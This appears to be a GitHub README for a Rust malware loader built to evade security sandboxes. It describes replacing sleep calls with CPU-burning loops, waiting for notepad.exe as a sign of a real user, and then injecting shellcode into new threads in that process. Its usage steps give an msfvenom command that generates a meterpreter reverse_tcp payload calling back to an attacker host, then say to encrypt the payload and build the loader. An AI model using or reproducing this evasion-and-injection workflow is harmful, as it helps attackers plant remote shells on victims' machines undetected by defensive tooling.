 ## **Bypassing Sandbox Detection Test**

As is well known, it is not realistic to achieve delays using the `sleep` function in a sandbox environment. Sandboxes often detect and flag such behavior as suspicious or evasive.

Instead, more effective techniques involve:

- Performing **CPU-intensive calculations**
- Implementing **inefficient algorithms**
- Waiting for **specific instructions in a loop** to bypass detection

These methods simulate legitimate resource consumption and delay execution without triggering common sandbox heuristics.

### **Triggering Execution Based on Notepad Detection**

In many sandbox environments, there is usually **no user interaction or typical desktop activity**, such as opening Notepad (`notepad.exe`). This behavioral difference can be leveraged for evasion.

We utilize this by:

1. Using **Notepad** as a designated indicator of a real user environment
2. Monitoring for the presence of the Notepad process
3. Once detected, executing shellcode through new **threads** within the Notepad process

This technique helps ensure that malicious payloads are only executed in environments that closely resemble real user systems — not in automated sandboxes.

### **Usage Instructions**

#### 1. Generate Shellcode with `msfvenom`

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f rust
```

#### 2. Encrypt the Shellcode by enc/src/main.rs

#### 3. Update the run/src/main.rs shellcode

#### 4. Run cargo build



----------------------------------------------------------------------------------
![1](https://github.com/user-attachments/assets/e77ba48a-fa39-42ed-9198-ba8ae39e1ca3)
![2](https://github.com/user-attachments/assets/2aede2e8-60dc-48d8-a91b-8335446677ec)
![3](https://github.com/user-attachments/assets/337a20b0-1d55-4199-af1a-25d246c77c63)

-----------------------------------------------------------------------------------



<h2>References</h2>
[RustRedOps](https://github.com/joaoviictorti/RustRedOps/tree/main)


  
